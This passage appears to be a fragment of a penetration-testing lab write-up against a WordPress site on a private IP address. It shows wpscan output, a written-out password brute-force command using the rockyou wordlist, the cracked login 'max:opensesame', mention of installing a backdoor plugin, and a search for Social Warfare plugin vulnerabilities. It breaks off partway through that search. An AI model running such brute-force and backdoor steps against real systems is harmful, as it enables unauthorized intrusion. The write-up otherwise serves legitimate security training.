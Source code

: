 
[+] Finished: Mon Jun  5 07:13:11 2023

[+] Requests Done: 3443

[+] Cached Requests: 8

[+] Data Sent: 1.012 MB

[+] Data Received: 1.063 MB

[+] Memory used: 300.09 MB

[+] Elapsed time: 00:01:04

  

So the user max was found. Time to bruteforce (Pentests are great since I can be as loud as possible unlike redteam engagements)

wpscan --url http://192.168.236.78/wordpress/ -U max -P /usr/share/wordlists/rockyou.txt

.

.

.

[+] Performing password attack on Wp Login against 1 user/s

[!] Valid Combinations Found:

 | Username: max, Password: opensesame

Navigating to http://192.168.236.78/wordpress/wp-admin

login as max:opensesame

I'm in the admin dashboard

now time to install some backdoor plugin but RIP I'm a user and not an admin so I have no install privileges. 

  

Checked the wp-scan site for the two plugins

  

https://wpscan.com/search?text=social-warfare

  

ADDED

  

TITLE

  

2023-01-19

  

Social Warfare < 4.4.0 - Post Meta Deletion via CSRF

  
